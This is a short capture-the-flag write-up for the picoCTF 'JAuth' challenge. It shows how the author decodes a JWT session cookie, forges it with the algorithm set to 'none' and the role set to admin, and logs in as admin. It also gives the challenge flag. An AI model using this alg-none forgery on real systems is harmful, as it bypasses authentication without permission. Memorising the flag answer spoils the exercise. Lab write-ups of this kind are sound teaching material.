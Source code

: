 ## JAuth

[Link to challenge](https://play.picoctf.org/practice/challenge/236)

Write-up:

1. Logging in as the test user allows us to see the session cookie. Decoding it 
gets us:

    ```json
    {
    "typ": "JWT",
    "alg": "HS256"
    }
    {
    "auth": 1757433546035,
    "agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0",
    "role": "user",
    "iat": 1757433546
    }
    ```

2. From previous experience, I attempted to change the `alg` to `"none"` and set
the `user` to admin, to test for flawed signature verification:

    ```json
    {
    "typ": "JWT",
    "alg": "none"
    }
    {
    "auth": 1757433546035,
    "agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0",
    "role": "admin",
    "iat": 1757433546
    }
    ```

    Re-encoding using [jwt.io/](https://www.jwt.io/) and setting as session cookie
    allows us to login as admin.

    Flag: **picoCTF{succ3ss_@u7h3nt1c@710n_3444eacf}**

**Note:** I'm not quite sure how the vulnerabilities in the challenge description
are related to this.